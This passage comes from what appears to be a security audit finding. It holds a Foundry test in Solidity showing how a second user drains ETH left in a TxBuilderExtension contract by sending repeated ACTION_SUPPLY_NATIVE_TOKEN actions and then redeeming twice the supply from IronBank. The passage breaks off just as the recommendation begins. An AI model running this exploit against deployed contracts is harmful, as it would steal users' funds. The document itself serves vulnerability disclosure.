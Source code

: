 ```solidity

        assertEq(ib.getBorrowBalance(user1, WSTETH), borrowAmount1);

        // ! The Extension's balance is now the User's sent ETH
        assertEq(address(extension).balance, repayAmount1);

        /* -------------------------------- ETH Theft ------------------------------- */

        // User2 submits multiple ACTION_SUPPLY_NATIVE_TOKEN actions to steal the ETH from the Extension.
        vm.startPrank(user2);
        // Set up TxBuilderExtension actions
        TxBuilderExtension.Action[]
            memory user2Actions = new TxBuilderExtension.Action[](2);
        user2Actions[0] = TxBuilderExtension.Action({
            name: "ACTION_SUPPLY_NATIVE_TOKEN",
            data: bytes("")
        });
        user2Actions[1] = TxBuilderExtension.Action({
            name: "ACTION_SUPPLY_NATIVE_TOKEN",
            data: bytes("")
        });

        // Execute
        // Send `repayAmount1` ETH which is the amount of ETH in the Extension.
        extension.execute{value: repayAmount1}(user2Actions);
        vm.stopPrank();

        // User2 successfully sent `repayAmount1` ETH and now has 2x the amount of ETH supplied in IronBank.
        assertEq(ib.getSupplyBalance(user2, WETH), repayAmount1 * 2);

        // User1's ETH is now stolen from the Extension.
        assertEq(address(extension).balance, 0);

        vm.prank(user2);
        ib.redeem(user2, user2, WETH, repayAmount1 * 2);

        // User2 successfully stole the ETH and took it for themselves.
        assertEq(IERC20(WETH).balanceOf(user2), repayAmount1 * 2);
    }
```
## Tool used

Manual Review and Foundry

## Recommendation

There are two issues that need to be fixed here:
